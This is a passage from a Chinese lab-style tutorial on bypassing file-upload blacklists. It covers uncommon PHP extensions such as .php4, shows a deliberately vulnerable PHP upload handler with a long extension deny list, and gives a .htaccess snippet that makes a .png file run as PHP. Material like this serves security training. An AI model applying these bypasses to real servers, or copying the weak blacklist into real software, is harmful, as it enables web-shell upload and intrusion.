 
黑名单过滤了 .asp .php .aspx .jsp 四种后缀，而 PHP 文件的后缀名除了 .php 外，还有 .pht | .phpt | .phtml | .php3 | .php4 | .php5 | .php6 等，可利用不常见的后缀名绕过黑名单。  
修改文件的后缀名为 .php4 即可绕过黑名单。

### .htaccess 绕过

```php
<?php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);// 删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); // 转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);// 去除字符串::$DATA
        $file_ext = trim($file_ext); // 收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
?>
```

此段代码也使用黑名单过滤上传的文件，过滤的文件后缀很多，无法通过不常见的后缀名绕过。但是可以通过上传 apache 的 .htaccess 文件：

``` htaccess
<FilesMatch "upload.png">  
    SetHandler application/x-httpd-php  
</FilesMatch>
```

该 .htaccess 文件可以将 .png 后缀的文件作为 PHP 文件解析。

### 大小写绕过
